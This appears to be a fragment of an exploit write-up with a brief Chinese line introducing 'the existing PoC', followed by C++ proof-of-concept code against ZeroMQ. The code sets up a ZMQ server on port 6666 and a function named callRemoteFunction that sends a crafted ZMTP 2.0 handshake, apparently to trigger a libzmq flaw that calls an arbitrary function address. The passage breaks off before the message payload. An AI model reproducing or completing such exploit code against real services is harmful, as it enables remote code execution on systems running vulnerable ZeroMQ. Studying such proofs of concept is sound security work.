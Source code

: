 先看看已有的poc  
```
#include <netinet/in.h>
#include <arpa/inet.h>
#include <zmq.hpp>
#include <string>
#include <iostream>
#include <unistd.h>
#include <thread>
#include <mutex>

class Thread {
public:
Thread() : the_thread(&Thread::ThreadMain, this)
{ }
~Thread(){
}
private:
std::thread the_thread;
void ThreadMain() {
zmq::context_t context (1);
zmq::socket_t socket (context, ZMQ_REP);
socket.bind ("tcp://*:6666");

while (true) {
zmq::message_t request;

// Wait for next request from client
try {
socket.recv (&request);
} catch ( ... ) { }
}
}
};

static void callRemoteFunction(const uint64_t arg1Addr, const uint64_t
arg2Addr, const uint64_t funcAddr)
{
int s;
struct sockaddr_in remote_addr = {};
if ((s = socket(AF_INET, SOCK_STREAM, 0)) == -1)
{
abort();
}
remote_addr.sin_family = AF_INET;
remote_addr.sin_port = htons(6666);
inet_pton(AF_INET, "127.0.0.1", &remote_addr.sin_addr);

if (connect(s, (struct sockaddr *)&remote_addr, sizeof(struct
sockaddr)) == -1)
{
abort();
}

const uint8_t greeting[] = {
0xFF, /* Indicates 'versioned' inzmq::stream_engine_t::receive_greeting */
0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, /* Unused */
0x01, /* Indicates 'versioned' inzmq::stream_engine_t::receive_greeting */
0x01, /* Selects ZMTP_2_0 inzmq::stream_engine_t::select_handshake_fun */
0x00, /* Unused */
};
send(s, greeting, sizeof(greeting), 0);

const uint8_t v2msg[] = {
```